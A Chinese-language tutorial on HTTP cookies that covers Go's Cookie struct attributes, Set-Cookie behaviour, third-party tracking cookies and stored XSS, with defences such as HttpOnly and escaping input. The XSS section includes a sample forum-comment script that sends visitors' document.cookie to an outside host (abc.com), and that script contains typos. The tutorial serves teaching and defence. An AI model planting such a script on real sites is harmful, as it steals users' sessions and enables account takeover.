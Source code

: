 http请求是无状态的，但是我们需要去保持一些状态，于是诞生了cookie头部

cookie可以是请求头部，也可以是响应头部

# cookie
通常服务器会给响应报文添加 Set-Cookie:.... 头部，来添加cookie

在服务器选择返回的cookie通常有多个属性

```
    type Cookie struct {
        Name  string //key-val
        Value string

        Path       string    // optional，当请求匹配上该路径时才携带cookie
        Domain     string    // optional，当请求该域名时才携带cookie
        Expires    time.Time // optional，持久性cookie，这个时间点后，浏览器才会销毁cookie
        RawExpires string    // for reading cookies only

        // MaxAge=0 means no 'Max-Age' attribute specified.,会在退出浏览器后删除该cookie
        // MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'，马上，现在就给删了
        // MaxAge>0 means Max-Age attribute present and given in seconds，经过多少秒后失效
        MaxAge   int
        Secure   bool   //true，cookie只有在https加密的情况下才会被发给客户端
        HttpOnly bool  //客户端无法通过js获取cookie，但是并不能完全防止xss攻击
        SameSite SameSite   //
        Raw      string
        Unparsed []string // Raw text of unparsed attribute-value pairs，不对转义过的键值对进行解析
    }
```

    Set-Cookie:key="i am a cookie"; Max-Age=10; HttpOnly

如果不设置Max-Age或值为0，则浏览器获取cookie后会暂存，下次再访问获取到cookie的domain+path网页，会携带cookie，直到浏览器被关闭后才清除

如果值>0，则会缓存，直到过期被删除

浏览器通过Cookie头部携带接受的和缓存的cookie发送给服务器

# 第三方cookie
假设a、b、c 三个页面植入了 d 公司的广告，你请求这三个页面都会再去请求 d 服务器的一个广告图片

1. 你请求了a页面，解析页面后去请求d服务器的一个图片，d服务器返回给你一个cookie：user="kanggege";page="a";domain="advertisement.com"
2. 后来你请求b页面，同样要请求一个d服务器的广告图片,cookie：user="kanggege";page="b";domain="advertisement.com"
3. c页面,cookie：user="kanggege";page="c";domain="advertisement.com"

通过识别你的身份和你访问网页的标识，可以知道你的访问记录，更偏向于访问哪种类型的网站，从而给你推送对应的广告

甚至追踪你所有的访问记录

# 跨站脚本XSS
假设有一个论坛网站，我在下面留言

    <script>window.location=http://abc.com?cookie=docuemnt.cookie</script>

我的留言被存入数据库，并再其他人访问时从数据库查询出来，并加载到页面中，则该脚本生效，我就获取到了访问者的cookie

一般cookie会存储登录状态，这是我就可以用这个cookie伪装他的身份登录

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

最好还是要将从用户得到的信息在存入数据库之前进行转义，这样更安全
